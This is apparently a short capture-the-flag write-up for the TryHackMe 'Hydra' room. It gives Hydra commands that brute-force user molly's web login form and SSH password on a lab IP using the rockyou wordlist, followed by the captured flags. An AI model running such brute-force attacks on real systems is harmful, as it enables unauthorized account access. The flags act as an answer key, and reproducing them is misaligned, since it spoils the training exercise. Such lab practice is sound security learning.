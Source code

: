 # <div align="center">[Hydra](https://tryhackme.com/r/room/hydra)</div>
<div align="center">
<img src="https://github.com/user-attachments/assets/c4812e0c-6aec-48e2-bfcd-797f3ec9095e" height="200"></img>  
</div>


# Use Hydra to bruteforce molly's web password. What is flag 1?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -t 50
```
```
THM{2673a7dd116de68e85c48ec0b1f2612e
```

# Use Hydra to bruteforce molly's SSH password. What is flag 2?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10 -t 50 
```
```
THM{c8eeb0468febbadea859baeb33b2541b}
```
